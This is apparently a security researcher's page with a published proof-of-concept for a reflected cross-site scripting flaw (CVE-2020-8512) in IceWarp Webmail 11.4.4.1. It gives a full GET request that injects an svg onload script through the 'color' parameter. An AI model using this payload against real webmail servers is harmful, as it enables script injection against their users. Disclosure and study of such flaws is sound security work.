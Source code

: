 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting".
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2018-08-21
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ 
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color="><svg/onload=alert("**XSS PAYLOAD**")> HTTP/1.1
Host: **host**
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: **cookie**
Connection: close
Upgrade-Insecure-Requests: 1

**Vulnerable Page :**
/webmail/
**Vulnerable Parameter :**
color


Exploit DB : <a href="https://www.exploit-db.com/exploits/"></a>
